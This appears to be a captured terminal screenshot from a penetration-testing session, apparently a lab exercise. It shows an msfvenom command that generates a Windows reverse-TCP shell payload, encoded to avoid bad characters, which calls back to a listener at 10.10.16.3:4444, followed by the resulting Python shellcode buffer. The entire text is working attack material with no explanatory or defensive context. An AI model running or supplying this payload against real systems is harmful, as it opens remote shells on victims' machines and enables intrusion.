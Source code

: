 ```
┌──(root㉿kali)-[/home/tom/桌面]
└─# msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp  RHOST=10.10.10.74 LHOST=10.10.16.3 LPORT=4444 exitfunc=thread -e x86/unicode_upper -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/unicode_upper
x86/unicode_upper succeeded with size 779 (iteration=0)
x86/unicode_upper chosen with final size 779
Payload size: 779 bytes
Final size of python file: 3842 bytes
buf =  b""
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x51\x41\x54\x41\x58\x41\x5a\x41\x50\x41\x33\x51"
buf += b"\x41\x44\x41\x5a\x41\x42\x41\x52\x41\x4c\x41\x59"
buf += b"\x41\x49\x41\x51\x41\x49\x41\x51\x41\x50\x41\x35"
buf += b"\x41\x41\x41\x50\x41\x5a\x31\x41\x49\x31\x41\x49"
buf += b"\x41\x49\x41\x4a\x31\x31\x41\x49\x41\x49\x41\x58"
buf += b"\x41\x35\x38\x41\x41\x50\x41\x5a\x41\x42\x41\x42"
buf += b"\x51\x49\x31\x41\x49\x51\x49\x41\x49\x51\x49\x31"
buf += b"\x31\x31\x31\x41\x49\x41\x4a\x51\x49\x31\x41\x59"
buf += b"\x41\x5a\x42\x41\x42\x41\x42\x41\x42\x41\x42\x33"
buf += b"\x30\x41\x50\x42\x39\x34\x34\x4a\x42\x4b\x4c\x5a"
buf += b"\x48\x33\x52\x4b\x50\x4d\x30\x4d\x30\x53\x30\x54"
buf += b"\x49\x4a\x45\x4e\x51\x39\x30\x52\x44\x44\x4b\x42"
buf += b"\x30\x4e\x50\x44\x4b\x42\x32\x4c\x4c\x44\x4b\x51"
buf += b"\x42\x4c\x54\x34\x4b\x52\x52\x4f\x38\x4c\x4f\x57"
buf += b"\x47\x4f\x5a\x4d\x56\x4e\x51\x4b\x4f\x36\x4c\x4f"
buf += b"\x4c\x43\x31\x33\x4c\x4b\x52\x4e\x4c\x4f\x30\x37"
buf += b"\x51\x58\x4f\x4c\x4d\x4b\x51\x58\x47\x39\x52\x4b"
buf += b"\x42\x42\x32\x51\x47\x34\x4b\x51\x42\x4c\x50\x34"
buf += b"\x4b\x30\x4a\x4f\x4c\x54\x4b\x30\x4c\x4e\x31\x52"
buf += b"\x58\x39\x53\x30\x48\x4d\x31\x5a\x31\x52\x31\x54"
buf += b"\x4b\x52\x39\x4d\x50\x4d\x31\x49\x43\x44\x4b\x4f"
buf += b"\x59\x4e\x38\x5a\x43\x4e\x5a\x51\x39\x54\x4b\x30"
buf += b"\x34\x34\x4b\x4b\x51\x39\x46\x30\x31\x4b\x4f\x36"
buf += b"\x4c\x47\x51\x48\x4f\x4c\x4d\x4b\x51\x57\x57\x50"
buf += b"\x38\x4b\x30\x34\x35\x4b\x46\x4d\x33\x33\x4d\x4c"
buf += b"\x38\x4f\x4b\x53\x4d\x4e\x44\x43\x45\x4b\x34\x31"
buf += b"\x48\x34\x4b\x51\x48\x4f\x34\x4b\x51\x58\x53\x51"
buf += b"\x56\x44\x4b\x4c\x4c\x30\x4b\x54\x4b\x51\x48\x4d"
buf += b"\x4c\x4b\x51\x38\x53\x34\x4b\x4c\x44\x54\x4b\x4b"
buf += b"\x51\x4a\x30\x53\x59\x50\x44\x4f\x34\x4f\x34\x31"
buf += b"\x4b\x31\x4b\x43\x31\x52\x39\x51\x4a\x32\x31\x4b"
buf += b"\x4f\x49\x50\x31\x4f\x31\x4f\x30\x5a\x44\x4b\x4d"
buf += b"\x42\x4a\x4b\x54\x4d\x51\x4d\x33\x38\x50\x33\x4e"
buf += b"\x52\x4b\x50\x4d\x30\x52\x48\x34\x37\x52\x53\x50"
buf += b"\x32\x51\x4f\x30\x54\x51\x58\x30\x4c\x44\x37\x4d"
buf += b"\x56\x4c\x47\x4b\x4f\x59\x45\x56\x58\x46\x30\x4d"
buf += b"\x31\x4d\x30\x4b\x50\x4e\x49\x59\x34\x30\x54\x32"
buf += b"\x30\x32\x48\x4f\x39\x55\x30\x32\x4b\x4d\x30\x4b"
buf += b"\x4f\x49\x45\x52\x30\x32\x30\x30\x50\x52\x30\x4f"
buf += b"\x50\x50\x50\x4f\x50\x42\x30\x52\x48\x39\x5a\x4c"
buf += b"\x4f\x59\x4f\x59\x50\x4b\x4f\x58\x55\x56\x37\x32"
buf += b"\x4a\x4b\x55\x53\x38\x4b\x5a\x4b\x5a\x4c\x50\x4c"
buf += b"\x43\x52\x48\x4b\x52\x4b\x50\x4e\x31\x51\x4c\x33"
buf += b"\x59\x39\x56\x31\x5a\x4c\x50\x31\x46\x52\x37\x53"
buf += b"\x38\x35\x49\x46\x45\x32\x54\x43\x31\x4b\x4f\x49"
buf += b"\x45\x54\x45\x39\x30\x44\x34\x4c\x4c\x4b\x4f\x50"
```